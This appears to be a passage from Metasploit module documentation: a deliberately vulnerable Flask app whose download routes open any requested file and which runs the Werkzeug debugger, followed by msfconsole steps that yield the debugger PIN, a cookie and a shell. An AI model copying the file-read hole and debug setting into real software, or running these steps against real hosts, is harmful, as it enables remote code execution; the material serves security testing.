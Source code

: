     def build_response(filename):
        with open(filename) as file:
             response = make_response(file.read())
             response.headers['Content-disposition'] = 'attachment'
             return response

    @app.route("/getdownload")
    @auth.login_required
    def getdownload():
        return build_response(request.args.get('file'))

    @app.route("/postdownload", methods=['POST', 'PUT'])
    @auth.login_required
    def postdownload():
        return build_response(request.form['file'])

    @click.command()
    @click.option("--no-evalex", is_flag=True, default=False)
    def runserver(no_evalex):
        evalex = not no_evalex
        app.run(host='0.0.0.0', port=80, debug=True, threaded=True,
                use_reloader=False, use_evalex=evalex)

    if __name__ == '__main__':
        runserver()

## Verification Steps

1. Run the docker containers
2. Start msfconsole

### Werkzeug 3.0.3 using /console

3. Do: `use exploit/multi/http/werkzeug_debug_rce`
4. Do: `set RHOSTS <Iip>`
5. Do: `set LHOST <ip>`
6. Do: `set VHOST 127.0.0.1`
7. Do: `set MACADDRESS <mac-address>`
8. Do: `set MACHINEID <machine-id>`
9. Do: `set FLASKPATH /usr/local/lib/python3.12/site-packages/flask/app.py`
10. Do: `run`
11. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 3.0.3 using debugger (GET)

12. Do: `set TARGETURI /getdownload?file=`
13. Do: `run`
14. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 3.0.3 using debugger (POST)

15. Do: `set METHOD POST`
16. Do: `set TARGETURI /postdownload`
17. Do: `set REQUESTBODY file=`
18. Do: `run`
19. You should see a PIN and a cookie being logged then get a shell.
